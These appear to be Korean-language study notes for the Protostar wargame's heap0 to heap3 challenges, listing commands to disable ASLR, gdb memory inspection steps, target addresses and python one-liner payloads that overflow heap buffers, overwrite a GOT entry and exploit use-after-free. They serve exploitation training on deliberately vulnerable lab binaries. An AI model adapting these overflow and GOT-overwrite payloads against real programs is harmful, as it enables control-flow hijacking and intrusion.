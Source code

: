 - 칼리 ASLR disable
> echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

- data 헤더 주소
> x/10wx 0x804a160 - 0x8

- 메모리 주소 구하기
> 1b0 - 160

- winner의 주소
> 0x8048464

> ./heap0 $(python -c "print 'A' * 80 + '\x64\x84\x04\x08' ")

=======================================================

## 프로토스타 - 21. heap1 더블 strcpy를 활용한 익스플로잇 시나리오

- 칼리 ASLR disable
> echo 0 | sudo tee /proc/sys/kernel/randomize_va_space

- printf의 got주소
> 0x08049774

- winner의 주소
> 0x8048494

- 힙의 주소
> x/100wx 0x804a160 - 0x8

> ./heap1 $(python -c "print 'A' * 20 + '\x74\x97\x04\x08'  + ' BBBB'")

> ./heap1 $(python -c "print 'A' * 20 + '\x74\x97\x04\x08'  + ' \x94\x84\x04\x08'")

=======================================================

## 프로토스타 - 22. heap2 UAF(Use After Free) 취약점을 활용한 변수 변조

> gdb-peda$ b *main+127

> gdb-peda$ b *main+297

> gdb-peda$ b *main+346

> x/30xw 0x804c818 - 8

=======================================================

## 프로토스타 - 23. UAF(Use After Free) 심화: 쉘코드 실행

샤의 공간 (블로그)
http://shayete.tistory.com/entry/7-Use-After-Free

- 힙의 위치
> x/100wx 0x804b160 - 0x8

- 패턴 생성
> pattern create 150
